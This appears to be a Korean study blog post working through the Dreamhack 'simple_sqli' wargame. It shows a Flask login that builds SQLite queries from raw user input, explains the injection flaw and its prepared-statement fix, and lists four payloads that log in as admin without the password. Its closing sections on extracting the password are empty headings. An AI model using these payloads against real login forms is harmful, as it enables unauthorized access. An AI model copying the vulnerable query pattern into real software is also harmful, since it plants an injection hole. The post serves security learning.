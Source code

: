 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (3) : Exercise"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```



# 드림핵 웹 [함께실습] simple_sqli
## 웹 서비스 분석
### 데이터베이스 구조

```python
#데이터 베이스 파일명을 database.db로 설정
DATABASE = "database.db"
# 파일이 존재하지 않는 경우
if os.path.exists(DATABASE) == False:
    # 파일 생성 및 연결
    db = sqlite3.connect(DATABASE) 
    # users 테이블 생성
    db.execute('create table users(userid char(100), userpassword char(100));')
    # 관리자와 guest 계정 생성
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit() # 쿼리 실행 확정
    db.close() # db 연결 종료
```
<br>

**위의 코드로 생성된 데이터 베이스의 구조**<br>
이 때 guest 계정의 비밀번호는 이요앚가 알 수 있지만, admin 게정은 랜덤하게 생성됨 16바이트의 문자열이기에, 비밀번호를 예상할 수 없다

|userid|userpassword|
|:------:|:---|:---|
|guest|guest|
|admin|랜덤 16바이트 문자열을 Hex 형태로 표현 (32비트)|

### 엔드포인트 : /login

```python
# Login 기능에 대해 GET과 POST HTTP 요청을 받아 처리함
@app.route('/login', methods=['GET', 'POST']) 
def login(): # login 함수 선언
    if request.method == 'GET': 
        # 이용자가 GET 메소드의 요청을 전달한 경우, 이용자에게 ID/PW를 요청받는 화면을 출력
        return render_template('login.html')
    else: # POST 요청을 전달한 경우
        # 이용자의 입력값인 userid를 받은 뒤, 이용자의 입력값인 userpassword를 받고
        userid = request.form.get('userid') 
        userpassword = request.form.get('userpassword')
        # users 테이블에서 이용자가 입력한 userid와 userpassword가 일치하는 회원 정보를 불러옴
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res: # 쿼리 결과가 존재하는 경우
            userid = res[0] # 로그인할 계정을 해당 쿼리 결과의 결과에서 불러와 사용
            if userid == 'admin': # 이 때, 로그인 계정이 관리자 계정인 경우
                return f'hello {userid} flag is {FLAG}' # flag를 출력
            # 관리자 계정이 아닌 경우, 웰컴 메시지만 출력
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        # 일치하는 회원 정보가 없는 경우 로그인 실패 메시지 출력
        return '<script>alert("wrong");history.go(-1);</script>'
```

## 취약점 분석 & 익스플로잇 (Exploit : 취약점 공격)
### 관리자 계정의 비밀번호를 알아내고 올바른 경로로 로그인
위의 login 함수에서 userid와 userpassword를 받은 후, query_db 함수를 사용하여 SQLite에게 질의한다. 이처럼 동적으로 생성한 쿼리를 RawQuery라고 한다. RawQuery를 생성할 때, 이용자의 입력값이 쿼리문에 포함된다면 SQL Injection에 노출된다. 이용자의 입력값을 검사하는 과정이 없기에, 임의의 쿼리문을 userid, userpassword에 삽입하여 공격할 수 있는 것이다. SQL 데이터를 사용할 때 쿼리문을 직접 생성하는 방식이 아닌, Prepared Statement와 ORM(Object Relational Mapping)을 사용하여 해결할 수 있다. Prepared Statement는 동적 쿼리가 전달되면 내부적인 쿼리 분석을 통해 안전한 쿼리문을 생성한다
```python
def query_db(query, one=True): # query_db 함수 선언
    cur = get_db().execute(query) # 연결된 데이터베이스에 쿼리문을 질의
    rv = cur.fetchall() # 쿼리문 내용을 받아오기
    cur.close() # 데이터베이스 연결 종료
    # 쿼리문 질의 내용에 대한 결과를 반환
    return (rv[0] if rv else None) if one else rv 
```
#### 로그인 쿼리
```SQL
SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";
```
#### SQL Injection 공격 쿼리문 작성
```SQL
/*
ID: admin, PW: DUMMY
userid 검색 조건만을 처리하도록, 뒤의 내용은 주석처리하는 방식
*/
SELECT * FROM users WHERE userid="admin"-- " AND userpassword="DUMMY"

/*
ID: admin" or "1 , PW: DUMMY
userid 검색 조건 뒤에 OR (또는) 조건을 추가하여 뒷 내용이 무엇이든, admin 이 반환되도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword="DUMMY"

/*
ID: admin, PW: DUMMY" or userid="admin
userid 검색 조건에 admin을 입력하고, userpassword 조건에 임의 값을 입력한 뒤 or 조건을 추가하여 userid가 admin인 것을 반환하도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" AND userpassword="DUMMY" or userid="admin"

/*
ID: " or 1 LIMIT 1,1-- , PW: DUMMY
userid 검색 조건 뒤에 or 1을 추가하여, 테이블의 모든 내용을 반환토록 하고 LIMIT 절을 이용해 두 번째 Row인 admin을 반환토록 하는 방식
*/
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword="DUMMY"
```

### 관리자 계정의 비밀번호를 모른 채 로그인을 우회
1. 개발자도구의 네트워크 탭 -> Preserve log
2. userid, password에 guest를 입력하고 login 버튼 클릭
3. /login으로 전송된 POST요청 찾기
4. 하단의 Form Data 확인

#### 비밀번호 길이 파악
#### 비밀번호 획득


